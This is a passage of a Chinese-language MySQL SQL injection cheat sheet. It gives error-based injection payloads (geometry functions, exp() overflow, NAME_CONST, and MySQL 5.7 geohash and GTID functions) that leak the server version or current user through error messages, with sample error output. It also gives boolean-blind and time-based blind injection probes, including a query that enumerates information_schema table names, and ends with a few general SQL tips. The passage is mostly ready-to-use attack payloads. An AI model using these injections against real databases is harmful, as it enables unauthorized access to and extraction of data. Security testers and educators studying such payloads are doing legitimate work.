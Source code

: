 polygon()
multipolygon()
linestring()
multilinestring()
exp()

```
mysql> select multipoint((select * from (select * from (select * from (select version())a)b)c));
ERROR 1367 (22007): Illegal non geometric '(select `c`.`version()` from (select '5.5.40-log' AS `version()` from dual) `c`)' va
//exp
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```
#### 4.值类型超出范围
在MySQL版本大于等于5.5.5的的时候才能用
double型函数exp()超出范围
这个函数是以e为底的对数函数
```
select exp(~(select*from(select user())x))
```
#### 5.数据重复
这里的version()出现了2次，所以报错。
比较鸡肋无法构造语句。    
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
```
#### 6.补充
在MySQL5.7中多了很多能报错的函数   
>ST_LatFromGeoHash()
ST_LongFromGeoHash()
GTID_SUBSET()
GTID_SUBTRACT()
ST_PointFromGeoHash()
```
mysql> select ST_LatFromGeoHash(version());
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function ST_LATFROMGEOHASH
mysql> select ST_LongFromGeoHash(version());
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function ST_LONGFROMGEOHASH
mysql> select GTID_SUBSET(version(),1);
ERROR 1772 (HY000): Malformed GTID set specification '5.7.12-log'.
mysql> select GTID_SUBTRACT(version(),1);
ERROR 1772 (HY000): Malformed GTID set specification '5.7.12-log'.
mysql> select ST_PointFromGeoHash(version(),1);
ERROR 1411 (HY000): Incorrect geohash value: '5.7.12-log' for function st_pointfromgeohash
```
### 0x06 Bool型盲注
and 1=1   
and 1=2   
AND ascii(SELECT SUBSTR(table_name,1,1) FROM information_schema.tables) =ascii( 'A')
### 0x07 时间型盲注
SLEEP()
## 常用小技巧
### 1.多行合并一行   
grouo_concat()
```
select a.*,group_concat(b.name separator '-') as name from a left join b on a.id=b.id group by a.id;   
```
### 2. 截取字符串
left(),right(),substring(),substring_index()   
